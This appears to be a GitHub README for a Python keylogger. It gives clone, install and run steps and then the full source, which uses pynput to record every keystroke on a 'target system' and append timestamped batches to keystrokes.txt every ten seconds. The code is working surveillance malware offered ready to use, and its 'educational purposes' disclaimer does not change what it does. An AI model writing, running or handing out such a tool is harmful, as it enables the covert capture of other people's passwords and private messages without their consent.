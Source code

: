 # Keylogger Tool

## Overview

This keylogger tool captures and stores keystrokes on a target system. It records keystrokes and saves them to a local file (`keystrokes.txt`) for analysis. This tool is intended for educational purposes and should be used responsibly, complying with all applicable laws and regulations.

## Features

- Captures all keystrokes, including special keys (space, enter, tab).
- Logs keystrokes in batches to improve performance.
- Includes timestamps for each batch of keystrokes.
- Writes logs to a local file (`keystrokes.txt`).

## Prerequisites

- Python 3.7+
- `pynput` library

## Installation

1. **Clone the repository**:
    ```bash
    https://github.com/paradoxing57/Key-Logger.git
    cd Key-Logger
    ```

2. **Create and activate a virtual environment** (optional but recommended):
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows use `venv\Scripts\activate`
    ```

3. **Install the required libraries**:
    ```bash
    pip install -r requirements.txt
    ```

## Usage

1. **Run the keylogger**:
    ```bash
    python enhanced_keylogger.py
    ```

2. **Stop the keylogger**:
    - The keylogger runs until the script is manually stopped (e.g., using `Ctrl+C` in the terminal).

3. **View the logs**:
    - The keystrokes are saved in `keystrokes.txt` in the same directory as the script.

## Code Explanation

The keylogger script captures keystrokes using the `pynput` library and logs them to a file. It processes keystrokes in batches to improve performance and includes robust error handling.

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

```python
import pynput.keyboard
import threading
from datetime import datetime

log = []
log_buffer_limit = 100  # Adjust the buffer limit as needed

def process_key_press(key):
    global log
    try:
        log.append(key.char)
    except AttributeError:
        if key == key.space:
            log.append(" ")
        elif key == key.enter:
            log.append("\n")
        elif key == key.tab:
            log.append("\t")
        else:
            log.append(f"[{str(key)}]")

def write_to_file():
    global log
    if log:
        with open("keystrokes.txt", "a") as file:
            file.write(f"{datetime.now()} - {''.join(log)}\n")
        log = []

def report():
    global log
    write_to_file()
    timer = threading.Timer(10, report)
    timer.start()

def main():
    keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press)
    with keyboard_listener:
        report()
        keyboard_listener.join()

if __name__ == "__main__":
    main()
